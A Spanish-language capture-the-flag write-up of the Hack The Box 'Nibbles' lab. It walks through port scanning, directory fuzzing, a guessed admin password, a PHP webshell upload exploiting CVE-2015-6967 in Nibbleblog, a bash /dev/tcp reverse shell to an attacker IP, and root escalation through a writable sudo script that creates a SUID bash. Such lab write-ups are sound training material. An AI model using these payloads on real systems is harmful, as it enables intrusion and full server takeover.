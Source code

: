 # Informacion

+ Nombre: Nibbles
+ IP: 10.129.251.238
+ OS: Linux
+ Dificultad: Easy

# Enumeración

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n -vvv --open -oG allports 10.129.251.238
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Escaneo detallado:

```
nmap -p22,80 -sCV -oN target 10.129.251.238
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web

![[web.png]]

En el código se menciona el directorio `/nibbleblog/` :

![[code.png]]

De primeras no hay nada interesante:

![[nibbles.png]]

### Fuzzing

Ejecuto fuerza bruta de directorios:

```
wfuzz -c --hc 404 -u "10.129.251.238/nibbleblog/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```
000000001:   200        60 L     168 W      2985 Ch     "http://10.129.251.238/nibbleblog/"                                                                                           
000000062:   301        9 L      28 W       329 Ch      "content"                                                                                                                     
000000114:   301        9 L      28 W       328 Ch      "themes"                                                                                                                      
000000246:   301        9 L      28 W       327 Ch      "admin"                                                                                                                       
000000506:   301        9 L      28 W       329 Ch      "plugins"                                                                                                                     
000000884:   200        63 L     643 W      4624 Ch     "README"                                                                                                                      
000000922:   301        9 L      28 W       331 Ch      "languages"
```

Revela varios directorios interesantes.

En `/nibbleblog/README` se encuentra la versión de `Nibbleblog v4.0.3`:

![[version.png]]

y en  `/nibbleblog/content/private/users.xml` se revela el usuario `admin`:

![[admin.png]]
# Arbitrary File Upload(CVE-2015-6967)

El plugin My_image de nibbleblog en versiones anteriores a 4.0.5, Permite a administradores ejecutar codigo remoto subiendo un archivo con extensión ejecutable, accediendo a el en `content/private/plugins/my_image/image.php`.


Hice fuzzing de nuevo con la extencion `.php` y revelo el archivo `admin.php` que contiene un panel de login: 

![[login.png]]

Afortunadamente probando con el usuario`admin` encontrado antes y la contraseña `nibbles` accedo al dashboard:

![[dashboard.png]]

En la configuracion del plugin My_image subi un archivo php con una simple webshell:

```
<?php
system($_GET['crab'])
?>
```

![[plugin.png]]

En `/nibbleblog/content/private/plugins/my_image/image.php?crab=id`

![[id.png]]

# Shell como nibbler

Revshell:

```
image.php?crab=bash -c "bash -i >%26 /dev/tcp/10.10.14.103/443 0>%261"
```

Terminal en escucha:

```
root@kali /home/cangrejo # nc -lnvp 443     
listening on [any] 443 ...
connect to [10.10.14.103] from (UNKNOWN) [10.129.143.152] 46398
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt 
3c632e69************************
```

# PrivEsc

## Sudo

nibbler puede ejecutar monitor.sh como root y sin contraseña:

```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

`monitor.sh` es un script de shell diseñado para monitorear servicios o procesos.

El script se encontraba dentro de un archivo zip:

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

Probé a añadir un comando al final del script para comprobar si lo ejecuta:

![[monitor.png]]

y funciona:

```
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ cat whoami.txt 
root
```

Agregue el siguiente payload para crear una copia de `bash` en el directorio tmp y con permisos SUID:

```
cp /bin/bash /tmp/crab.sh && chmod u+s /tmp/crab.sh
```

```
nibbler@Nibbles:/home/nibbler$ /tmp/crab.sh -p
```

```
nibbler@Nibbles:/home/nibbler$ /tmp/crab.sh -p
crab.sh-4.3# whoami
root
crab.sh-4.3# cat /root/root.txt 
55e60a4914**********************
```